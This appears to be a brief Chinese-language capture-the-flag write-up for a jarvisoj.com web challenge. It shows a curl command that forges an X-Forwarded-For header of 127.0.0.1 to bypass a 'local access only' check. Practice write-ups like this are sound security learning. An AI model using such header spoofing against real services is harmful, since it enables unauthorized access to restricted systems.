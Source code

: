 # jarvisoj.com -- WEB -- LOCALHOST

## Challenge

```
题目入口：http://web.jarvisoj.com:32774/
```

## Solution

打开网页，提示只能本地访问。这里只要构造 `X-FORWARDED-FOR` 项即可骗过网站。

```console
$ curl --header "X-FORWARDED-FOR: 127.0.0.1" http://web.jarvisoj.com:32774/
```

